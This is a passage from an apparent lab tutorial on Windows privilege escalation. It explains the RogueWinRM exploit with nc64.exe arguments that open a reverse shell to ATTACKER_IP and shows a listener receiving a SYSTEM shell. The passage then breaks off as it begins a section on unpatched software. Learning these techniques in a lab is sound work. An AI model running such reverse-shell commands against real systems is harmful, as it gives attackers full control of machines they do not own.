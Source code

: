 ![RogueWinRM exploit execution](./assets/24545e313a2e5ddee2386a68b4c7adeb.png)

**Note:** The exploit may take up to 2 minutes to work,  so your browser may appear as unresponsive for a bit. This happens if  you run the exploit multiple times as it must wait for the BITS service  to stop before starting it again. The BITS service will stop  automatically after 2 minutes of starting.

The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case. The `-a` parameter is used to pass arguments to the executable. Since we want  nc64 to establish a reverse shell against our attacker machine, the  arguments to pass to netcat will be `-e cmd.exe ATTACKER_IP 4442`.

If all was correctly set up, you should expect a shell with SYSTEM privileges:

- **Kali Linux**        

```shell-session
user@attackerpc$ nc -lvp 4442
Listening on 0.0.0.0 4442
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
nt authority\system
        
```

#  Abusing vulnerable software                            

### Unpatched Software

Software installed on the target system can present various privilege escalation opportunities. As with drivers, organisations and users may  not update them as often as they update the operating system. You can  use the `wmic` tool to list software installed on the target  system and its versions. The command below will dump information it can  gather on installed software (it might take around a minute to finish):
